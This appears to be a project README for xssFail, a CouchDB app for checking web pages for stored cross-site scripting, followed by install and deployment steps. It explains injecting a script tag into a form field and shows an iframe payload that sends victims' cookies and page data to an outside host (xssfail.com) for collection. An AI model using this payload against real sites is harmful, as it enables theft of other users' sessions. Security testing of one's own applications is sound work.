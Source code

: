 ## Who is this project for?

If you know about [xss(Cross-site scripting)](http://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability, and want to check whether you web app is secure enough, this project is for YOU!
There are 2 options:

* Install standalone app to avoid losing sensitive data.
* Use online app - [xssFail.com](http://xssfail.com)

## How does it work?

1. You inject script: <script src="..."></script>
into target text field and save it. Any text field could be used (Product name, User name, Login, Address etc.). Let's say you use "Product" field.
2. UserA opens page with list of products with product you've injected.
3. If html engine doesn't encode strings UserA will get javascript executed.
4. Injected javascript code writes (document.write) the following tag: 
    &lt;iframe src="http://xssfail.com/form?param1=&param2=&paramN=" /&gt;
where param1, param2, paramN - all information about UserA (including browser cookies, site url etc.)
5. After iframe is loaded it executes script which saves info from URL (param1, param2, param3) into CouchDb database.
6. You can go to xssfail.com and search for "WINNERS".

## How to install standalone app?

### Before you start

Before you start using this app, it's necessary to:
* [Install CouchDB](http://wiki.apache.org/couchdb/Installation) v.1.1.x or greater. More info about couchDB [here](http://wiki.apache.org/couchdb/).
* [Install CouchApp](http://couchapp.org/page/installing). More info about couchApp [here](http://couchapp.org/page/index).

CouchApps are web applications which can be served directly from [CouchDB](http://couchdb.apache.org).
This gives them the nice property of replicating just like any other data stored in CouchDB.
They are also simple to write as they can use the built-in jQuery libraries and plugins that ship with CouchDB.

### Deploying this app

Assuming you just cloned this app from git,
and you have changed into the app directory in your terminal, you want to push it to your CouchDB with the CouchApp command line tool, like this:

    couchapp push . http://name:password@localhost:5984/xss

If you don't have a password on your CouchDB (admin party) you can do it like this (but it's a bad, idea, set a password):

    couchapp push . http://localhost:5984/xss

If you get sick of typing the URL, you should setup a `.couchapprc` file in the root of your directory.
Remember not to check this into version control as it could have passwords in it.

The `.couchapprc` file should have contents like this:

    {
        "default" : {
          "db" : "http://localhost:5984/xss"
        }
      }
    }

Now that you have the `.couchapprc` file set up, you can push your app to the CouchDB as simply as:

    couchapp push

This pushes to the `default` as specified.

* go to [http://localhost:5984/xss/_design/api/_rewrite/index.html](http://localhost:5984/xss/_design/api/_rewrite/index.html) to open default UI page
* go to [http://localhost:5984/_utils](http://localhost:5984/_utils) to open database UI manager - [http://wiki.apache.org/couchdb/Getting_started_with_Futon](Futon)


